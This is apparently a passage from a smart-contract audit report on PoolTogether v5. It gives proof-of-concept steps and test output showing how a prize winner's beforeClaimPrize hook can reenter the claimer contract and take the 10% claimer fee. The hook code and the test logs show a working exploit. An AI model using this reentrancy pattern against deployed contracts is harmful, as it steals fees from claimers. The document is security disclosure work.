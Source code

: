 1. Add the following Imports and scripts in [`test/Claimable.t.sol::L8`](https://github.com/code-423n4/2024-03-pooltogether/blob/main/pt-v5-vault/test/unit/Claimable.t.sol#L8)

<details><summary>Imports and Contracts</summary></details>
<br>

2. Add the following functions in [`test/Claimable.t.sol::L132`](https://github.com/code-423n4/2024-03-pooltogether/blob/main/pt-v5-vault/test/unit/Claimable.t.sol#L132)

<details><summary>Testing Functions</summary></details>
<br>

3. Change [`beforeClaimPrize`](https://github.com/code-423n4/2024-03-pooltogether/blob/main/pt-v5-vault/test/unit/Claimable.t.sol#L254-L274) hook function, and replace it with the following:

```solidity
    function beforeClaimPrize(
        address winner,
        uint8 tier,
        uint32 prizeIndex,
        uint96 reward,
        address rewardRecipient
    ) external returns (address) {
        address[] memory __winners = new address[](1);
        __winners[0] = winner;

        if (tier == 1) {
            __claimer.claimPrizes(__winners, 0, 0, rewardRecipient);
        }

        return winner;
    }
```

4. Check that everything is correct and run:

```powershell
forge test --mt testAuditor_winnerStealClaimerFees -vv
```

**Output**:

```powershell
  Winner reward is 100 tokens
  Fees are 10% (10 tokens)
  =============
  Simulating the normal Operation (No stealing)
  Winner PrizeTokens: 90 token
  ClaimerRecipent PrizeTokens: 10 token
  =============
  Simulating winner steal recipient fees
  Winner PrizeTokens: 100 token
  ClaimerRecipent PrizeTokens: 0 token
```

In this test, we first made a reward and withdrew it from our Claimer contract normally (no attack happened). Then, we made another prize reward but by making the attack when withdrawing it, which can be seen in the Logs.
